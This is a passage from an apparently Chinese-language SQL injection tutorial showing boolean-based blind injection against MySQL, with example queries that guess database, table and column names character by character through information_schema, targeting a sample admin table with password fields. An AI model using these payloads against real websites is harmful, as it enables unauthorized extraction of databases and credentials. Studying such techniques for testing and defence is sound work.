 注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库



读取1库库名第一个字: select * from test where id = 1 and if(substring((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1)='i',1=1,1=2);

# 0x05 猜表名

注意: table_schema=xxx 修改为其他库会查出其他库的数据

例如:

table_schema=database()  会获取当前连接的库数据

table_schema='test' 会获取test库数据



注意: LIMIT 0 修改会爆出不同的表名

例如:

LIMIT 0,1 修改为0 就是出1表

LIMIT 1,1 修改为1 就是出2表



数据库语句-读取当前库的第一张表名的第一个字: select * from test where id = 1 and if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),1,1)='t',1=1,1=2);

# 0x06 猜字段

table_schema = "xx" 要看的数据库名

table_name = "xx" 要看的表名



limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password



猜test库 tdb_admin表的第一个字段名第一个字: select * from test where id = 1 and if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',1=1,1=2);
